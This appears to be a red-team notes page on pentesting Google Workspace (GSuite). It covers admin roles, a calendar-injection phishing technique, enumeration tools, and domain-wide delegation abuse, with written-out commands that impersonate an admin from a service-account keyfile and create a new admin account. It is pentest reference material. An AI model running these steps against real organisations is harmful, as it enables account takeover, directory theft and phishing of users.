 # Workspace - GSuite - Pentest - Resources

Google Workspace provide IdaaS (Identity As A Service) and SaaS (Software As A Service) throught its services such as Gmail, Drive ...   

When using organization level within GCP, you will use Google WorkSpace as Idaas.  

--> Overview of [Google Identity Management](https://cloud.google.com/architecture/identity/overview-google-authentication)

Workspace also know as Gsuite:
- Gmail
- Google Drive
- Google Contacts
- Google Calendar, Meet ...

**User Portal URL** : https://myaccount.google.com/  
**User API Endpoint** : https://[service-name].googleapis.com  

Workspace Portal and API is only available for admin.
- Portal URL : https://admin.google.com
- Admin API Endpoint : https://admin.googleapis.com

**Directory**: Workspace directory is a container which contains information about users, groups and organizations units of an organization.  

### Admin Role
Admin role are mainly used to managed Google Workspace, users/groups, devices, role management and manage workspace services such as Gmail and other services settings.  

**2** Admin role types:
- Pre-build administrator roles
  - Super Admin
  - Groups Admin
  - Help Desk Admin
  - Services Admin
  - Storage Admin 
  - ... etc
  
- Custom admin roles

--> Admin roles can be assigned to **user account** and **service account**. (Except **Super Admin** role)  

Role contains 2 types of privileges:
- Admin console privileges
- Admin API privileges

--> **Only Super Admin can assign admin roles** to another user / service account.  

## Phishing
Phising G-Suite:
• Calendar Event Injection
• Silently injects events to target calendars
• No email required
• Google API allows to mark as accepted
• Bypasses the “don’t auto-add” setting
• Creates urgency w/ reminder notification
• Include link to phishing page

## Initial Access

## Analysis
#### Gsuite cartography
Enumerate and graph Google GSuite - users, groups.  
- https://github.com/lyft/cartography
- https://lyft.github.io/cartography/modules/gsuite/index.html

## Lateral movement
### Domain Wide Delegation
Domain Wide Delegation allow some service account to access Google Workspace data such as Gmail, Drive and others. Initially design to allows apps to access users' data across your organization's Google Workspace environment.  

- https://gitlab.com/gitlab-com/gl-security/threatmanagement/redteam/redteam-public/gcp_misc/-/blob/master/gcp_delegation.py?ref_type=heads

```
./gcp_delegation.py --keyfile ./credentials.json --impersonate steve.admin@target-org.com --domain target-org.com --list
```

You can also use this Python script to validate access, list user directory and create new administrative account
```
# Validate access only
$ ./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com

# List the directory
$ ./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --list

# Create a new admin account
$ ./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --account pwned
```

## Exfiltration
#### Dumping Google Workspace Directory
- https://github.com/RedTeamOperations/GoogleWorkspaceDirectoryDump

## Defense / Monitoring
#### Audit logs - Google Workspace
Google Cloud services write audit logs that record administrative activities and accesses within your Google Workspace.

Different type of audit Logs in Google Workspace :
1. Admin Audit logs
  - Activity
  - Data Access
2. Enterprise Groups Audit logs
3. Login Audit logs
4. OAuth Token Audit logs
5. SAML Audit logs

- https://admin.google.com/u/0/ac/sc/investigation?ref=reporting

## Resources

#### Workspace Pentesting
- https://cloud.hacktricks.xyz/pentesting-cloud/workspace-security

#### OK Google, How do I Red Team GSuite
- https://www.youtube.com/watch?v=KTVHLolz6cE&t=904s

#### Hacking GSuite - The Power of Dark Apps Script Magic
- https://www.youtube.com/watch?v=6AsVUS79gLw

#### GSuite Red teaming phishing using google groups
- https://systemweakness.com/gsuite-red-teaming-phishing-using-google-groups-924901e574c2

#### GSuite Red teaming phishing using google chat
- https://systemweakness.com/gsuite-red-teaming-google-chat-phishing-ruse-50ba430b170a
